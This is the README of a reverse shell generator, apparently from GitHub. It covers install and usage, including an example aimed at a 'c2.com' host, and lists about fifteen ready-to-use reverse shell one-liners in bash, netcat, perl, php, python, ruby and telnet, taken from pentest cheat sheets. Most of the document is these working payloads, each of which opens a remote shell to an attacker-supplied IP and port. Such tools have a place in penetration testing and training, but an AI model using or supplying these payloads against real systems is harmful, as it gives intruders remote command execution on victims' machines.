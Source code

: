 # Reverse Shell Generator

Sometimes searching the internet for a reverse shell and changing its values is a pain, that's what this tool is for.

When executed it prints out the reverse shell (so you can pipe it to `xclip` to copy and paste it) and optionally writes it to a file in case you need it later.

To copy the result of the script you can do it like this (it will prevent the script from outputting the reverse shell):

```
reversegen -m bash -i 10.10.1.14 -p 1234 | xclip -selection clipboard
```

It also allows getting the IP from the hostname so you can pass as the IP argument an URL like: `google.com`.<br>Having it in `/etc/hosts` will have the script to choose that IP.

## Installation

```
chmod +x reversegen.py
sudo ln -s $(pwd)/reversegen.py /usr/local/bin/reversegen
```

## Usage:

```
reversegen [-h] -m METHOD -i IP -p PORT [-o FILENAME]
```

Example of usage: 

```
reversegen -m python -i 192.168.1.10 -p 4444
reversegen -m python -i 10.10.1.14 -p 4444 -o ~/rev
reversegen -m python -i c2.com -p 4444
```

## Available Methods

- bash: `bash -i >& /dev/tcp/IP/PORT 0>&1`

- bash2: `0<&196;exec 196<>/dev/tcp/IP/PORT; sh <&196 >&196 2>&196`

- netcat: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f]`

- netcat2: `nc -e /bin/sh IP PORT`

- netcat3: `/bin/sh | nc IP PORT`

- netcat4: `rm -f /tmp/p; mknod /tmp/p p && nc IP PORT 0/tmp/p`

- perl: `perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

- perl2 (Doesn't use */bin/sh*): `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

- perl3 (For Windows): `perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

- php: `php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`

- python: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- ruby: `ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

- ruby2 (Doesn't use */bin/sh*): `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

- ruby3 (For Windows): `ruby -rsocket -e 'c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

- telnet: `rm -f /tmp/p; mknod /tmp/p p && telnet IP PORT 0/tmp/p`

## Credits for the Reverse Shells to:

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Bernardo Damele](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)

